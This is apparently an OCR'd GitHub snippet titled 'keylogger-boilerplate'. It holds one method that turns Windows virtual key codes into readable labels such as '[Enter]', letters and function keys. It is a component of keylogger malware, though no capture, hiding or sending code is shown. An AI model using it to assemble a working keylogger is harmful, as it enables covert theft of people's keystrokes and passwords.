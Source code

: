 # keylogger-boilerplate

private String verifyKey(int code)
        {
            String key = "";

            if (code == 8) key = "[Back]";
            else if (code == 9) key = "[TAB]";
            else if (code == 13) key = "[Enter]";
            else if (code == 19) key = "[Pause]";
            else if (code == 20) key = "[Caps Lock]";
            else if (code == 27) key = "[Esc]";
            else if (code == 32) key = "[Space]";
            else if (code == 33) key = "[Page Up]";
            else if (code == 34) key = "[Page Down]";
            else if (code == 35) key = "[End]";
            else if (code == 36) key = "[Home]";
            else if (code == 37) key = "Left]";
            else if (code == 38) key = "[Up]";
            else if (code == 39) key = "[Right]";
            else if (code == 40) key = "[Down]";
            else if (code == 44) key = "[Print Screen]";
            else if (code == 45) key = "[Insert]";
            else if (code == 46) key = "[Delete]";
            else if (code == 48) key = "0";
            else if (code == 49) key = "1";
            else if (code == 50) key = "2";
            else if (code == 51) key = "3";
            else if (code == 52) key = "4";
            else if (code == 53) key = "5";
            else if (code == 54) key = "6";
            else if (code == 55) key = "7";
            else if (code == 56) key = "8";
            else if (code == 57) key = "9";
            else if (code == 65) key = "a";
            else if (code == 66) key = "b";
            else if (code == 67) key = "c";
            else if (code == 68) key = "d";
            else if (code == 69) key = "e";
            else if (code == 70) key = "f";
            else if (code == 71) key = "g";
            else if (code == 72) key = "h";
            else if (code == 73) key = "i";
            else if (code == 74) key = "j";
            else if (code == 75) key = "k";
            else if (code == 76) key = "l";
            else if (code == 77) key = "m";
            else if (code == 78) key = "n";
            else if (code == 79) key = "o";
            else if (code == 80) key = "p";
            else if (code == 81) key = "q";
            else if (code == 82) key = "r";
            else if (code == 83) key = "s";
            else if (code == 84) key = "t";
            else if (code == 85) key = "u";
            else if (code == 86) key = "v";
            else if (code == 87) key = "w";
            else if (code == 88) key = "x";
            else if (code == 89) key = "y";
            else if (code == 90) key = "z";
            else if (code == 91) key = "[Windows]";
            else if (code == 92) key = "[Windows]";
            else if (code == 93) key = "[List]";
            else if (code == 96) key = "0";
            else if (code == 97) key = "1";
            else if (code == 98) key = "2";
            else if (code == 99) key = "3";
            else if (code == 100) key = "4";
            else if (code == 101) key = "5";
            else if (code == 102) key = "6";
            else if (code == 103) key = "7";
            else if (code == 104) key = "8";
            else if (code == 105) key = "9";
            else if (code == 106) key = "*";
            else if (code == 107) key = "+";
            else if (code == 109) key = "-";
            else if (code == 110) key = ",";
            else if (code == 111) key = "/";
            else if (code == 112) key = "[F1]";
            else if (code == 113) key = "[F2]";
            else if (code == 114) key = "[F3]";
            else if (code == 115) key = "[F4]";
            else if (code == 116) key = "[F5]";
            else if (code == 117) key = "[F6]";
            else if (code == 118) key = "[F7]";
            else if (code == 119) key = "[F8]";
            else if (code == 120) key = "[F9]";
            else if (code == 121) key = "[F10]";
            else if (code == 122) key = "[F11]";
            else if (code == 123) key = "[F12]";
            else if (code == 144) key = "[Num Lock]";
            else if (code == 145) key = "[Scroll Lock]";
            else if (code == 160) key = "[Shift]";
            else if (code == 161) key = "[Shift]";
            else if (code == 162) key = "[Ctrl]";
            else if (code == 163) key = "[Ctrl]";
            else if (code == 164) key = "[Alt]";
            else if (code == 165) key = "[Alt]";
            else if (code == 187) key = "=";
            else if (code == 186) key = "ç";
            else if (code == 188) key = ",";
            else if (code == 189) key = "-";
            else if (code == 190) key = ".";
            else if (code == 192) key = "'";
            else if (code == 191) key = ";";
            else if (code == 193) key = "/";
            else if (code == 194) key = ".";
            else if (code == 219) key = "´";
            else if (code == 220) key = "]";
            else if (code == 221) key = "[";
            else if (code == 222) key = "~";
            else if (code == 226) key = "\\";
            else if (code == 1 || code == 2) key = ""; // Ovo je lijevi i desni klik
            else key = "[" + code + "]";

            return key;
        }
